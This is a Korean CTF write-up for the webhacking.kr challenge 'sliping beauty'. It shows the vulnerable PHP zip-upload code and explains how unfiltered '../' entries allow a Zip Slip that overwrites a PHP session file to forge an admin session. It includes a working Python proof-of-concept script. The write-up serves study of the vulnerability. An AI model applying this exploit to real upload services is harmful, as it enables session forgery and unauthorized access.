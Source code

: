 ```yaml
---
title: '[Webhacking.kr] sliping beauty'
author: hoppi
date: 2023-03-01 01:10:00 + 0000
categories: [Web]
tags: [web, zip_slip, php]
---
```


오랜만에 `webhacking.kr`에 들어가서 좀 예전에 나왔던 새로운(??) 문제들을 몇 문제 풀어보았습니다. 1.5년 전만 하더라도 그 문제들을 보면서 `어떻게 풀라는 거지?`라는 생각 밖에 못했는데 이제는 그 정도는 아닌 것 같네요. 아무튼 그 중에서 오랜만에 마주친 개념을 포함한 `sliping beauty` 롸업을 적어보려고 합니다.  

# 코드 분석
***
먼저 세션의 `uid`가 `admin`이면 플레그를 출력합니다. 사용자가 `zip` 파일을 올리면 추출한 파일들에 난수를 붙여서 `./upload/` 디렉토리에 `copy`합니다.  
```php
<?php
session_start();
if(!$_SESSION['uid']) $_SESSION['uid'] = "guest";
if($_SESSION['uid'] == "admin") include "/flag";
if($_FILES['upload']){
  $path = $_FILES['upload']['tmp_name'];
  $zip = new ZipArchive;
  if ($zip->open($_FILES['upload']['tmp_name']) === true){
    for($i = 0; $i < $zip->numFiles; $i++){
      $filename = $zip->getNameIndex($i);
      $filename_ = $filename.rand(10000000,99999999);
      if(strlen($filename) > 240) exit("file name too long");
      if(preg_match('/[\x00-\x1F\x7F-\xFF]/',$filename)) exit("no hack");
      if(copy("zip://{$_FILES['upload']['tmp_name']}#{$filename}", "./upload/{$filename_}")) echo "{$filename_} uploaded.<br>";
      else echo "{$filename_} upload failed.<br>";
    }
    $zip->close();
  }
}
highlight_file(__FILE__);
?>
```
<br/>

# 취약점
***
## Zip Slip
***
`Zip slip`은 `path traversal`구문을 가지는 파일을 포함한 `zip`, `tar` 등을 추출할 때 이를 이용하여 공격자가 의도한 경로로 원하는 파일을 덮어쓰거나 업로드하는 공격 방식입니다. 이 문제에서는 `preg_match()`를 이용해서 `filename`을 검사하지만 `../` 은 필터링하지 않습니다.  

## PHP Session Overwrite
***
위의 `zip slip`을 이용하면 임의의 위치에 파일을 업로드할 수 있으므로 원하는 세션을 만들어낼 수 있습니다. `PHP`는 직렬화된 포멧으로 `/var/lib/php/sessions/`에 세션파일을 저장합니다. 그리고 그 파일의 포멧은 `session_[PHPSESSID]`와 같습니다. 세션파일에 저장하는 값은 아래와 같이 간단하게 쉘에서 확인할 수 있습니다. `session_encode()`를 찍어보면 직렬화된 세션 데이터를 얻을 수 있습니다. (여기서 `session_start()`는 가장 위에 선언해줘야합니다. 코드를 몇개 적고 중간에 적어주게 되면 에러가 발생합니다🙃)  
![session](../../../assets/img/2023-03-01/session.png){: w="700" h="350" }  
<br/>

# Exploit
***
다음과 같은 시나리오를 구성할 수 있습니다.  

1. 직렬화된 세션 데이터를 포함한 `aasdasdsd/../../../../../../../../var/lib/php/sessions/sess_`파일을 압축하여 업로드합니다.
2. `sess_` 뒤에 랜덤한 숫자가 붙기 때문에 이 숫자가 `PHPSESSID`가 됩니다.
3. 이 랜덤한 숫자로 쿠키의 `PHPSESSID` 값을 바꿔줍니다.
<br/>

## PoC Code
***
그냥 파일이름에 `../`을 포함시키려고 맥북에서는 `/`를 `:`로 바꾸더라구요. 결국 방법을 찾지 못해서 어차피 PoC 코드로 적어야 할 겸 다른 ctf 문제에서 사용한 zip 파일 업로드 코드를 이용했습니다. ㅋㅅㅋ  
```python
from requests import post,get
from re import search
from io import BytesIO
import zipfile

info = lambda x: print(f'[+] {x}')
URL = 'http://webhacking.kr:10015'

PAYLOAD = 'uid|s:5:"admin";'

fh = BytesIO()
with zipfile.ZipFile(fh, "a", zipfile.ZIP_DEFLATED, False) as zf:
    zf.writestr("hacked/../../../../../../../../var/lib/php/sessions/sess_", PAYLOAD)

## Get Cookie
res = get(f"{URL}/")
COOKIE = {"PHPSESSID":res.headers['Set-Cookie'][:-7].split("PHPSESSID=")[1]}

## Zip file upload
res = post(f"{URL}/", files={"upload": ('hoppi.zip', fh.getvalue())}, cookies=COOKIE)
if "failed" in res.text.split("<br>")[0]:
    print(f"[-] Failed to upload zip file...")
else:
    info(res.text.split("<br>")[0])

NEW_SESSID = res.text.split("sess_")[1].split(" uploaded.")[0]
info (f"New PHPSESSID is {NEW_SESSID}")
NEW_COOKIE = {"PHPSESSID":NEW_SESSID}
res = get (f"{URL}/",cookies=NEW_COOKIE)

## Get flag
m = search(r"FLAG{.*?}",res.text)

if m:
    FLAG = m.group()
    info(f'Flag is {FLAG}')
else :
    print("[-] Failed to find the flag")
```
{: file='exploit.py'}
<br/>

# Reference
***
- [https://blog.christophetd.fr/write-insomnihack-2018-ctf-teaser/](https://blog.christophetd.fr/write-insomnihack-2018-ctf-teaser/)
- [https://ctftime.org/writeup/33611](https://ctftime.org/writeup/33611)
- [https://www.hahwul.com/cullinan/zip-slip/](https://www.hahwul.com/cullinan/zip-slip/)